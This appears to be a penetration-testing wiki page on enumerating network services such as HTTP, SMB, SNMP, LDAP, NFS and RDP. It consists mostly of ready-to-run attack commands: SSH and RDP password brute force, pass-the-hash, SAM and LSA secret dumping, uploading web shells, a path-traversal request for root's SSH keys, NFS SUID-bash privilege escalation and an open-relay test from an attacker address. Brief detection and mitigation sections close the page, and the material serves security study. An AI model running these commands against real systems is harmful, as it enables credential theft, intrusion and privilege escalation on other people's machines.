

# Enumeration

> **Systematically extracting detailed information from discovered services to identify users, shares, configurations, and vulnerabilities that lead to exploitation.**

## 🧠 What Is It?

If scanning is the X-ray, enumeration is the detailed MRI — you've found the open ports, now you dig deep into each service to extract every useful detail. Enumeration extracts usernames, group memberships, network shares, configuration data, and application details that directly feed into exploitation.

Think of it like being a detective at a crime scene: scanning finds the rooms, enumeration searches every drawer, cabinet, and corner of each room for evidence.

## 🏗️ How It Works

Each open port/service has its own enumeration methodology. A professional penetration tester has a mental checklist for every service they encounter. The goal is to build a comprehensive picture of:
- What users/accounts exist
- What data/shares are accessible
- What software version is running (and whether it's vulnerable)
- What misconfigurations are present

## 📊 Diagram



## ⚙️ Technical Details

---

### HTTP/HTTPS Enumeration (Port 80/443)

#### Directory and File Brute Force

Hidden paths, backup files, admin panels, and API endpoints are found through brute-forcing.

**Gobuster:**
```bash
# Basic directory scan
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt

# With file extensions
gobuster dir -u http://target.com \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt,bak,old,js,json,xml,conf,config

# With status codes filter
gobuster dir -u http://target.com -w wordlist.txt -s 200,204,301,302,307

# Follow redirects
gobuster dir -u http://target.com -w wordlist.txt -r

# With authentication
gobuster dir -u http://target.com -w wordlist.txt \
  -U admin -P password

# With cookie
gobuster dir -u http://target.com -w wordlist.txt \
  -c "session=abc123; token=xyz"

# With custom headers
gobuster dir -u http://target.com -w wordlist.txt \
  -H "X-Forwarded-For: 127.0.0.1"

# DNS subdomain mode
gobuster dns -d target.com \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt

# Virtual host enumeration
gobuster vhost -u http://target.com \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

**ffuf (Fuzz Faster U Fool):**
```bash
# Directory fuzzing
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt \
  -u http://target.com/FUZZ

# File extension fuzzing
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt \
  -u http://target.com/FUZZ \
  -e .php,.html,.txt,.bak,.old,.conf

# Filter by response size (remove false positives)
ffuf -w wordlist.txt -u http://target.com/FUZZ -fs 4242

# Filter by status code
ffuf -w wordlist.txt -u http://target.com/FUZZ -fc 404,403

# Match only specific codes
ffuf -w wordlist.txt -u http://target.com/FUZZ -mc 200,204,301,302

# POST parameter fuzzing
ffuf -w wordlist.txt -u http://target.com/login \
  -X POST -d "username=FUZZ&password=password" -H "Content-Type: application/x-www-form-urlencoded"

# Virtual host discovery
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -u http://target.com -H "Host: FUZZ.target.com" -fs 4242

# Rate limiting
ffuf -w wordlist.txt -u http://target.com/FUZZ -rate 100

# Recursive fuzzing
ffuf -w wordlist.txt -u http://target.com/FUZZ -recursion -recursion-depth 2

# Save output
ffuf -w wordlist.txt -u http://target.com/FUZZ -o results.json -of json
```

**Feroxbuster:**
```bash
# Basic scan (recursive by default)
feroxbuster --url http://target.com

# With extensions
feroxbuster --url http://target.com -x php,html,txt,bak

# Limit recursion depth
feroxbuster --url http://target.com --depth 2

# With wordlist
feroxbuster --url http://target.com \
  -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt

# Filter responses
feroxbuster --url http://target.com --filter-status 404

# With proxy (Burp Suite)
feroxbuster --url http://target.com --proxy http://127.0.0.1:8080

# Silent mode (less output)
feroxbuster --url http://target.com --quiet

# Save state and resume
feroxbuster --url http://target.com --resume-from ferox-state.json
```

**Best Wordlists (SecLists):**
```bash
# Install SecLists
apt install seclists
# or
git clone https://github.com/danielmiessler/SecLists /usr/share/seclists

# Top wordlists for web enumeration:
/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt       # 62k dirs
/usr/share/seclists/Discovery/Web-Content/raft-large-words.txt             # 119k words
/usr/share/seclists/Discovery/Web-Content/common.txt                       # 4.6k common
/usr/share/seclists/Discovery/Web-Content/dirbuster-medium.txt             # 220k entries
/usr/share/seclists/Discovery/Web-Content/big.txt                          # 20k entries
/usr/share/wordlists/dirb/common.txt                                       # Basic 4k
```

#### CMS Detection

```bash
# whatweb — comprehensive fingerprinting
whatweb http://target.com
whatweb -a 3 http://target.com   # Aggression level 3

# CMSmap — multiple CMS detection
cmsmap http://target.com
cmsmap -s http://target.com      # Scan
cmsmap -e http://target.com      # Enumerate

# Wappalyzer (browser extension or CLI)
npm install -g wappalyzer
wappalyzer http://target.com

# Manual checks:
# WordPress: /wp-login.php, /wp-admin/, /wp-content/
# Joomla: /administrator/, /components/, /modules/
# Drupal: /user/login, /node/1, /sites/default/
# Magento: /admin, /downloader/, /skin/frontend/
```

#### WPScan — WordPress Enumeration

```bash
# Basic scan
wpscan --url http://target.com

# Enumerate users
wpscan --url http://target.com --enumerate u

# Enumerate plugins
wpscan --url http://target.com --enumerate p

# Enumerate plugins (vulnerable only)
wpscan --url http://target.com --enumerate vp

# Enumerate vulnerable themes
wpscan --url http://target.com --enumerate vt

# Enumerate all (users, plugins, themes, config backups)
wpscan --url http://target.com --enumerate u,ap,at,cb,dbe

# Password brute force
wpscan --url http://target.com --enumerate u \
  --passwords /usr/share/wordlists/rockyou.txt

# With API token (better vulnerability data)
wpscan --url http://target.com --api-token YOUR_TOKEN --enumerate vp,vt,u

# Detect WordPress version
wpscan --url http://target.com --detection-mode aggressive

# Force HTTP (ignore SSL errors)
wpscan --url http://target.com --disable-tls-checks

# Through proxy (Burp)
wpscan --url http://target.com --proxy http://127.0.0.1:8080
```

---

### SMB Enumeration (Port 445/139)

SMB (Server Message Block) is Windows file sharing. It's historically the richest source of information during internal network pentests.

#### enum4linux

```bash
# Full enumeration (all checks)
enum4linux -a 192.168.1.100

# Null session check
enum4linux -n 192.168.1.100

# Get userlist
enum4linux -U 192.168.1.100

# Get share list
enum4linux -S 192.168.1.100

# Get OS information
enum4linux -o 192.168.1.100

# Get password policy
enum4linux -P 192.168.1.100

# Get group information
enum4linux -G 192.168.1.100

# RID cycling (user enumeration via RIDs)
enum4linux -r 192.168.1.100

# RID range
enum4linux -R 500-600 192.168.1.100

# With credentials
enum4linux -u admin -p password -a 192.168.1.100

# Verbose output
enum4linux -v -a 192.168.1.100

# Save output
enum4linux -a 192.168.1.100 | tee enum4linux_output.txt
```

**Reading enum4linux output:**
```
[+] Server 192.168.1.100 allows sessions using username '', password ''
# ↑ Null sessions allowed — can enumerate without credentials

[+] Got OS info for 192.168.1.100 from smbclient:
Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 3.X]
# ↑ OS version and Samba version

[+] Users:
Administrator (RID 500)
Guest (RID 501)
john.doe (RID 1001)
# ↑ Valid usernames for password attacks

[+] Share Enumeration:
//192.168.1.100/IPC$       [IPC   ]
//192.168.1.100/C$         [Disk  ] Default share
//192.168.1.100/ADMIN$     [Disk  ] Remote Admin
//192.168.1.100/Backups    [Disk  ]
# ↑ Non-standard share "Backups" — investigate!
```

#### enum4linux-ng (Modern replacement)

```bash
# Install
git clone https://github.com/cddmp/enum4linux-ng
pip3 install -r requirements.txt

# Full scan
python3 enum4linux-ng.py -A 192.168.1.100

# YAML output
python3 enum4linux-ng.py -A 192.168.1.100 -oY output.yaml

# With credentials
python3 enum4linux-ng.py -A -u admin -p password 192.168.1.100
```

#### smbclient

```bash
# List shares (null session)
smbclient -L //192.168.1.100 -N

# List shares with credentials
smbclient -L //192.168.1.100 -U username%password

# Connect to a share
smbclient //192.168.1.100/Backups -N
smbclient //192.168.1.100/C$ -U administrator%password

# smbclient commands (once connected):
smb: \> ls                    # List directory
smb: \> cd Documents          # Change directory
smb: \> get secret.txt        # Download file
smb: \> put backdoor.php      # Upload file (if writable!)
smb: \> recurse ON            # Recursive mode
smb: \> mget *                # Download all files
smb: \> prompt OFF            # Disable confirmation
smb: \> dir                   # List files with details

# Download all files from share recursively
smbclient //192.168.1.100/Backups -N -c "recurse; prompt off; mget *"

# Execute command on Windows SMB
smbclient //192.168.1.100/C$ -U admin%password -c "get Windows\System32\config\SAM /tmp/SAM"
```

#### CrackMapExec (CME/NetExec)

The Swiss Army knife for SMB enumeration and attacks.

```bash
# Basic SMB enumeration
crackmapexec smb 192.168.1.100

# CIDR range
crackmapexec smb 192.168.1.0/24

# List shares
crackmapexec smb 192.168.1.100 -u '' -p '' --shares

# With credentials
crackmapexec smb 192.168.1.100 -u admin -p password --shares

# Enumerate users
crackmapexec smb 192.168.1.100 -u admin -p password --users

# Enumerate groups
crackmapexec smb 192.168.1.100 -u admin -p password --groups

# Enumerate logged-on users
crackmapexec smb 192.168.1.100 -u admin -p password --loggedon-users

# Enumerate sessions
crackmapexec smb 192.168.1.100 -u admin -p password --sessions

# Check local admin (password spraying)
crackmapexec smb 192.168.1.0/24 -u admin -p password --local-auth

# Execute command
crackmapexec smb 192.168.1.100 -u admin -p password -x "whoami"

# Execute PowerShell command
crackmapexec smb 192.168.1.100 -u admin -p password -X "Get-Process"

# Pass the hash
crackmapexec smb 192.168.1.100 -u admin -H 'aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76'

# Dump SAM hashes
crackmapexec smb 192.168.1.100 -u admin -p password --sam

# Dump LSA secrets
crackmapexec smb 192.168.1.100 -u admin -p password --lsa

# Use Kerberos
crackmapexec smb 192.168.1.100 -u admin -p password --kerberos

# Spider share (list all files)
crackmapexec smb 192.168.1.100 -u admin -p password -M spider_plus

# Null session
crackmapexec smb 192.168.1.100 -u '' -p ''
```

#### smbmap

```bash
# List shares (null session)
smbmap -H 192.168.1.100

# With credentials
smbmap -u admin -p password -H 192.168.1.100

# List all drives
smbmap -u admin -p password -H 192.168.1.100 -d DOMAIN

# List files in share
smbmap -u admin -p password -H 192.168.1.100 -r Backups

# Download file
smbmap -u admin -p password -H 192.168.1.100 \
  --download 'Backups\important.txt'

# Upload file
smbmap -u admin -p password -H 192.168.1.100 \
  --upload '/tmp/shell.php' 'Web\shell.php'

# Execute command
smbmap -u admin -p password -H 192.168.1.100 -x 'net user'

# Pass the hash
smbmap -u admin -p 'aad3b435b51404eeaad3b435b51404ee:HASH' -H 192.168.1.100
```

---

### FTP Enumeration (Port 21)

```bash
# Check for anonymous login
ftp 192.168.1.100
# Username: anonymous
# Password: (blank or email address)

# Nmap anonymous check
nmap --script=ftp-anon -p 21 192.168.1.100

# FTP banner grab
nc -nv 192.168.1.100 21

# FTP commands for enumeration
ftp> ls -la           # List all files including hidden
ftp> pwd              # Current directory
ftp> cd /             # Navigate to root
ftp> binary           # Switch to binary mode (before downloading)
ftp> get filename     # Download file
ftp> mget *           # Download all files
ftp> put shell.php    # Upload file (test write access!)
ftp> passive          # Toggle passive mode
ftp> bye              # Exit

# Automated FTP enumeration
hydra -l anonymous -p anonymous ftp://192.168.1.100

# Check for ProFTPd 1.3.3c (CVE-2010-4221)
nmap --script=ftp-proftpd-backdoor -p 21 192.168.1.100

# vsftpd 2.3.4 backdoor (CVE-2011-2523)
nmap --script=ftp-vsftpd-backdoor -p 21 192.168.1.100
# Triggered by username containing :) — opens shell on port 6200

# FTP bounce attack
nmap --script=ftp-bounce -p 21 192.168.1.100
```

---

### SSH Enumeration (Port 22)

```bash
# Version detection
nmap -sV -p 22 192.168.1.100
nc -nv 192.168.1.100 22   # Banner grab

# SSH algorithm enumeration
nmap --script=ssh2-enum-algos -p 22 192.168.1.100
ssh-audit 192.168.1.100   # Comprehensive SSH audit

# User enumeration (CVE-2018-15473 — OpenSSH < 7.7)
# Vulnerability: different timing/response for valid vs invalid users
# Exploit:
git clone https://github.com/Rhynorater/CVE-2018-15473-Exploit
python3 sshUsernameEnumExploit.py 192.168.1.100 --userList /usr/share/seclists/Usernames/top-usernames-shortlist.txt

# msf module
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS 192.168.1.100
set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
run

# SSH brute force
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100

# Check for default/weak SSH keys
# Debian weak keys (CVE-2008-0166)
wget https://github.com/g0tmi1k/debian-ssh/raw/master/uncommon_keys/debian_ssh_rsa_2048_x86.tar.bz2

# Key-based login check
ssh -i id_rsa user@192.168.1.100 -o StrictHostKeyChecking=no

# Check authorized_keys accessible via other vuln
curl http://target.com/../../../../../root/.ssh/authorized_keys
```

---

### SMTP Enumeration (Port 25/587)

SMTP allows user enumeration through VRFY and EXPN commands on misconfigured servers.

```bash
# Banner grab
nc -nv 192.168.1.100 25
telnet 192.168.1.100 25

# SMTP commands for enumeration:
# VRFY — verify if user exists
EHLO test.com
VRFY admin
# 250 admin <admin@target.com>   ← User exists!
# 550 admin... User unknown      ← User doesn't exist

# EXPN — expand mailing list
EXPN postmaster
EXPN admin

# RCPT TO — check recipient (stealthy)
EHLO test.com
MAIL FROM:<test@test.com>
RCPT TO:<admin@target.com>
# 250 OK   ← User exists
# 550 No such user  ← Doesn't exist

# smtp-user-enum tool
smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt \
  -t 192.168.1.100

smtp-user-enum -M EXPN -U users.txt -t 192.168.1.100

smtp-user-enum -M RCPT -U users.txt -D target.com -t 192.168.1.100

# Nmap SMTP scripts
nmap --script=smtp-enum-users -p 25 192.168.1.100
nmap --script=smtp-commands -p 25 192.168.1.100
nmap --script=smtp-open-relay -p 25 192.168.1.100   # Check for open relay!

# Check for open relay (send email through target)
telnet 192.168.1.100 25
EHLO test.com
MAIL FROM:<attacker@evil.com>
RCPT TO:<victim@other.com>
DATA
Test relay
.
QUIT
# "250 OK" = OPEN RELAY (major misconfiguration!)
```

---

### SNMP Enumeration (Port 161 UDP)

SNMP (Simple Network Management Protocol) leaks massive amounts of network information when misconfigured.

```bash
# Nmap SNMP detection
nmap -sU -p 161 192.168.1.100
nmap -sU -p 161 --script=snmp-info 192.168.1.100

# snmpwalk — walk the OID tree (needs community string)
# Default community strings: public, private, community, manager
snmpwalk -v1 -c public 192.168.1.100
snmpwalk -v2c -c public 192.168.1.100
snmpwalk -v3 -u admin -l authPriv -a SHA -A authpass -x AES -X privpass 192.168.1.100

# Get specific OIDs
snmpget -v2c -c public 192.168.1.100 sysDescr.0        # System description
snmpget -v2c -c public 192.168.1.100 sysUpTime.0       # Uptime
snmpget -v2c -c public 192.168.1.100 ifNumber.0        # Number of interfaces

# Important OIDs to query:
# 1.3.6.1.2.1.1.1.0      sysDescr      — OS + software info
# 1.3.6.1.2.1.1.5.0      sysName       — Hostname
# 1.3.6.1.2.1.25.4.2.1.2 hrSWRunName   — Running processes
# 1.3.6.1.2.1.25.6.3.1.2 hrSWInstalledName — Installed software
# 1.3.6.1.4.1.77.1.2.25  Windows user accounts
# 1.3.6.1.2.1.6.13.1.3   TCP local ports (open services!)
# 1.3.6.1.2.1.4.20.1.1   IP addresses

# Get running processes
snmpwalk -v2c -c public 192.168.1.100 hrSWRunName

# Get network interfaces
snmpwalk -v2c -c public 192.168.1.100 ifDescr

# Get Windows users (Windows-specific OID)
snmpwalk -v1 -c public 192.168.1.100 1.3.6.1.4.1.77.1.2.25

# Get open TCP ports
snmpwalk -v2c -c public 192.168.1.100 1.3.6.1.2.1.6.13.1.3

# onesixtyone — fast SNMP community string brute force
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt \
  192.168.1.100

onesixtyone -c community_strings.txt -i hosts.txt -o results.txt

# snmpbrute (Python)
python3 snmpbrute.py -t 192.168.1.100 -p 161

# snmpenum
snmpenum 192.168.1.100 public windows.txt

# Metasploit SNMP
use auxiliary/scanner/snmp/snmp_login
set RHOSTS 192.168.1.0/24
run

use auxiliary/scanner/snmp/snmp_enum
set RHOSTS 192.168.1.100
set COMMUNITY public
run
```

---

### LDAP Enumeration (Port 389/636)

LDAP (Lightweight Directory Access Protocol) is the backbone of Active Directory. Misconfigured anonymous binds leak all AD information.

```bash
# Check for anonymous bind
ldapsearch -x -H ldap://192.168.1.100 -b "" -s base

# Enumerate base DNs
ldapsearch -x -H ldap://192.168.1.100 -b "" "(objectClass=*)" \
  namingContexts

# Anonymous enumeration (if allowed)
ldapsearch -x -H ldap://192.168.1.100 \
  -b "DC=target,DC=com" \
  "(objectClass=*)"

# Get all users
ldapsearch -x -H ldap://192.168.1.100 \
  -b "DC=target,DC=com" \
  "(objectClass=user)" \
  sAMAccountName displayName mail

# Get all computers
ldapsearch -x -H ldap://192.168.1.100 \
  -b "DC=target,DC=com" \
  "(objectClass=computer)" \
  cn operatingSystem

# Get all groups
ldapsearch -x -H ldap://192.168.1.100 \
  -b "DC=target,DC=com" \
  "(objectClass=group)" \
  cn member

# With credentials
ldapsearch -x -H ldap://192.168.1.100 \
  -D "CN=user,DC=target,DC=com" \
  -w password \
  -b "DC=target,DC=com" \
  "(objectClass=user)"

# Find Domain Admins
ldapsearch -x -H ldap://192.168.1.100 \
  -b "DC=target,DC=com" \
  "(memberOf=CN=Domain Admins,CN=Users,DC=target,DC=com)"

# Find machines with unconstrained delegation
ldapsearch -x -H ldap://192.168.1.100 \
  -b "DC=target,DC=com" \
  "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))"

# LDAPS (port 636)
ldapsearch -x -H ldaps://192.168.1.100 -b "DC=target,DC=com" "(objectClass=user)"

# Nmap LDAP scripts
nmap --script=ldap-search -p 389 192.168.1.100
nmap --script=ldap-rootdse -p 389 192.168.1.100

# ldapdomaindump — comprehensive AD dump
ldapdomaindump 192.168.1.100 -u 'target\user' -p password -o ./ldap_dump/
# Creates HTML files with all AD info
```

---

### NFS Enumeration (Port 2049)

NFS (Network File System) allows mounting remote directories. Misconfigured exports can expose entire filesystems.

```bash
# Check for NFS exports (no auth needed for this)
showmount -e 192.168.1.100
# Output:
# Export list for 192.168.1.100:
# /home           *          ← Mounted to everyone!
# /backup         10.0.0.0/8
# /var/www/html   192.168.1.0/24

# Nmap NFS scripts
nmap --script=nfs-showmount -p 2049 192.168.1.100
nmap --script=nfs-ls,nfs-statfs,nfs-showmount -p 2049 192.168.1.100

# Mount the share
mkdir /tmp/nfs_mount
mount -t nfs 192.168.1.100:/home /tmp/nfs_mount
mount -t nfs -o nolock 192.168.1.100:/backup /tmp/nfs_mount

# List mounted contents
ls -la /tmp/nfs_mount/

# NFS no_root_squash exploitation
# If no_root_squash is set, you can create SUID files as root!
# On attacking machine (as root):
cp /bin/bash /tmp/nfs_mount/bash_copy
chmod +s /tmp/nfs_mount/bash_copy

# On victim machine (as any user):
/tmp/bash_copy -p   # Runs as root!

# Check NFS configuration
cat /etc/exports
# Lines with:
# no_root_squash  — dangerous! client root = server root
# no_all_squash   — dangerous! client users mapped to server UIDs
# rw              — write access!

# Unmount
umount /tmp/nfs_mount
```

---

### RDP Enumeration (Port 3389)

```bash
# Detect RDP
nmap -sV -p 3389 192.168.1.100
nmap --script=rdp-enum-encryption -p 3389 192.168.1.100

# BlueKeep check (CVE-2019-0708)
# Pre-auth RCE in Windows Remote Desktop Services
nmap --script=rdp-vuln-ms12-020 -p 3389 192.168.1.100
# CVE-2019-0708 specific:
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS 192.168.1.100
run

# DejaBlue check (CVE-2019-1181/1182)
# Similar to BlueKeep, affects Windows 7, 8, 10, Server 2008-2019

# RDP brute force
ncrack -vv --user administrator -P /usr/share/wordlists/rockyou.txt \
  rdp://192.168.1.100

hydra -t 4 -l administrator -P /usr/share/wordlists/rockyou.txt \
  rdp://192.168.1.100

# Connect to RDP (with xfreerdp)
xfreerdp /u:administrator /p:password /v:192.168.1.100

# Connect ignoring certificate
xfreerdp /u:administrator /p:password /v:192.168.1.100 /cert:ignore

# Connect with pass-the-hash (requires restricted admin mode)
xfreerdp /u:administrator /pth:NTHASH /v:192.168.1.100

# rdesktop
rdesktop -u administrator -p password 192.168.1.100
```

## 💥 Exploitation Step-by-Step

### Building an Attack Surface from Enumeration

```bash
#!/bin/bash
# Systematic enumeration workflow

TARGET_IP="192.168.1.100"
DOMAIN="target.com"

echo "=== Starting Enumeration for $TARGET_IP ==="

# Identify open ports first (from previous scanning)
# Assume: 21, 22, 25, 80, 139, 161, 389, 443, 445, 2049, 3389

echo "[*] HTTP Enumeration..."
gobuster dir -u http://$TARGET_IP \
  -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt \
  -x php,txt,html,bak -o http_dirs.txt -q

echo "[*] HTTPS Enumeration..."
gobuster dir -u https://$TARGET_IP -k \
  -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt \
  -o https_dirs.txt -q

echo "[*] SMB Enumeration..."
enum4linux -a $TARGET_IP | tee smb_enum.txt
smbmap -H $TARGET_IP | tee smb_shares.txt
smbclient -L //$TARGET_IP -N | tee smb_shares2.txt

echo "[*] FTP Enumeration..."
echo "anonymous:anonymous" | nc -nv $TARGET_IP 21 &
nmap --script=ftp-anon,ftp-bounce -p 21 $TARGET_IP

echo "[*] SMTP Enumeration..."
smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt \
  -t $TARGET_IP | tee smtp_users.txt

echo "[*] SNMP Enumeration..."
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt \
  $TARGET_IP | tee snmp_community.txt
snmpwalk -v2c -c public $TARGET_IP | tee snmp_walk.txt

echo "[*] LDAP Enumeration..."
ldapsearch -x -H ldap://$TARGET_IP -b "" "(objectClass=*)" | tee ldap_anon.txt

echo "[*] NFS Enumeration..."
showmount -e $TARGET_IP | tee nfs_exports.txt

echo "[*] RDP Check..."
nmap --script=rdp-enum-encryption,rdp-vuln-ms12-020 -p 3389 $TARGET_IP

echo "=== Enumeration Complete! ==="
echo "Review files: http_dirs.txt, smb_enum.txt, smtp_users.txt, snmp_walk.txt"
```

## 🛠️ Tools

| Service | Tool | Key Command |
|---------|------|-------------|
| HTTP | gobuster | `gobuster dir -u http://target -w wordlist.txt` |
| HTTP | ffuf | `ffuf -w wordlist.txt -u http://target/FUZZ` |
| HTTP | feroxbuster | `feroxbuster --url http://target` |
| WordPress | WPScan | `wpscan --url http://target --enumerate u,ap` |
| SMB | enum4linux | `enum4linux -a 192.168.1.100` |
| SMB | CrackMapExec | `crackmapexec smb target --shares` |
| SMB | smbclient | `smbclient -L //target -N` |
| SMTP | smtp-user-enum | `smtp-user-enum -M VRFY -U users.txt -t target` |
| SNMP | snmpwalk | `snmpwalk -v2c -c public target` |
| SNMP | onesixtyone | `onesixtyone -c communities.txt target` |
| LDAP | ldapsearch | `ldapsearch -x -H ldap://target -b "DC=..."` |
| NFS | showmount | `showmount -e target` |
| RDP | ncrack | `ncrack --user admin -P rockyou.txt rdp://target` |

## 🔍 Detection

- **Web scanners**: WAF logs show rapid 404 sequences (directory brute force)
- **SMB**: Windows event log 4625 (failed logon), 5140 (share access)
- **SNMP**: Firewall logs showing UDP/161 queries; rate-limit SNMP
- **LDAP**: Event ID 4625 for failed LDAP binds; audit LDAP access
- **FTP**: vsftpd logs anonymous login attempts

## 🛡️ Mitigation

1. **SMB**: Disable SMBv1; require signing; block TCP/445 at perimeter
2. **SNMP**: Use SNMPv3 with auth+encryption; change default community strings; block UDP/161 externally
3. **LDAP**: Disable anonymous binds; require LDAPS; audit access
4. **NFS**: Use `root_squash`; restrict exports to specific IPs; use NFSv4 with Kerberos
5. **FTP**: Disable anonymous FTP; use SFTP/FTPS instead; chroot users
6. **RDP**: Enable NLA; restrict RDP access by IP; keep patches current; use VPN
7. **SMTP**: Disable VRFY/EXPN commands (`smtpd_disable_vrfy_command = yes` in Postfix)

## 📚 References

- [HackTricks — Enumeration](https://book.hacktricks.xyz/)
- [SecLists Repository](https://github.com/danielmiessler/SecLists)
- [enum4linux GitHub](https://github.com/CiscoCXSecurity/enum4linux)
- [CrackMapExec Documentation](https://wiki.porchetta.industries/)
- [WPScan Documentation](https://github.com/wpscanteam/wpscan)
- [LDAP Enumeration — HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)
- [CVE-2018-15473 SSH User Enumeration](https://nvd.nist.gov/vuln/detail/CVE-2018-15473)
- [CVE-2019-0708 BlueKeep](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)
- [PayloadsAllTheThings — Network Pentesting](https://github.com/swisskyrepo/PayloadsAllTheThings)
